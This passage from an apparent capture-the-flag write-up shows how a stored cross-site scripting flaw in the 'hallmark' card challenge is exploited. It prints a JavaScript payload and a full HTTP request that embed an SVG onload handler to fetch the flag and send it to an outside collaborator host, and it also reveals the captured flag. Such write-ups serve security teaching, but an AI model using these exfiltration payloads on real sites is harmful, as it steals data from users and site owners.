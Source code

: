
The XSS was triggered when browsing the card:
![XSS triggered](/media/2023.05/hallmark.png)

We craft a payload that will request the flag and send it to a Burp collaborator:
`fetch('/flag').then(flag=>flag.text()).then(flag => fetch('https://burp.collaborator/'+flag))`

We modify the SVG file:

```text
PUT /card HTTP/1.1
Host: hallmark.web.actf.co
Content-Type: application/x-www-form-urlencoded
Content-Length: 1713

svg=heart&type[]=image/svg%2bxml&content=<svg+xmlns%3d"http%3a//www.w3.org/2000/svg"+width%3d"400"+height%3d"400"+viewBox%3d"0+0+400+400"+onload%3d"fetch('/flag').then(flag=>flag.text()).then(flag+%3d>+fetch('https://f8oln394j5jyuy7praekidg2vt1kpbd0.oastify.com/'%2bflag))"><path+fill%3d"%23465283"+d%3d"M32.805+143.09h58.993c17.316.145+29.863+5.11+37.64+14.894+7.778+9.784+10.346+23.146+7.705+40.085-1.027+7.74-3.301+15.333-6.824+22.78-3.375+7.448-8.071+14.165-14.087+20.153-7.338+7.593-15.189+12.412-23.554+14.456-8.364+2.045-17.022+3.067-25.974+3.067H40.29l-8.365+41.618H1.328l31.477-157.054m25.755+24.97l-13.207+65.714c.88.146+1.76.219+2.641.219h3.082c14.087.146+25.827-1.241+35.22-4.162+9.39-3.066+15.7-13.726+18.93-31.98+2.64-15.333-.001-24.168-7.926-26.504-7.777-2.337-17.536-3.431-29.275-3.286a61.27+61.27+0+0+1-5.063.219H58.34l.22-.22m113.445-66.795h30.377l-8.585+41.838h27.295c14.969.291+26.121+3.358+33.459+9.2+7.484+5.84+9.686+16.939+6.603+33.294l-14.748+72.941h-30.817l14.088-69.655c1.467-7.302+1.027-12.486-1.32-15.553-2.349-3.066-7.412-4.599-15.189-4.599l-24.434-.22-18.049+90.027h-30.377l31.697-157.272m121.773+41.824h58.992c17.317.146+29.864+5.112+37.641+14.895+7.777+9.784+10.346+23.146+7.704+40.085-1.027+7.74-3.301+15.333-6.823+22.78-3.376+7.448-8.072+14.165-14.088+20.153-7.338+7.593-15.188+12.412-23.554+14.456-8.363+2.045-17.022+3.067-25.973+3.067h-26.415l-8.364+41.617H262.3l31.478-157.053m25.754+24.97l-13.208+65.714a16.17+16.17+0+0+0+2.643.219h3.08c14.09.146+25.829-1.241+35.22-4.162+9.392-3.066+15.703-13.726+18.931-31.98+2.641-15.333+0-24.168-7.924-26.504-7.778-2.337-17.537-3.431-29.277-3.286a61.31+61.31+0+0+1-5.061.219h-4.624l.22-.22"/></svg>&id=498b8244-43c1-4ae1-a520-89b33fd164fe
```
We verified that our payload was working and got an interaction
`/you%20can't%20view%20this%20%3E:(?p0wu1=1` on our collaborator instance.

Then, we sent our card to the admin and got the flag as a collaborator interaction:

`GET /actf%7Bthe_adm1n_has_rece1ved_y0ur_card_cefd0aac23a38d33%7D HTTP/1.1

# brokenlogin
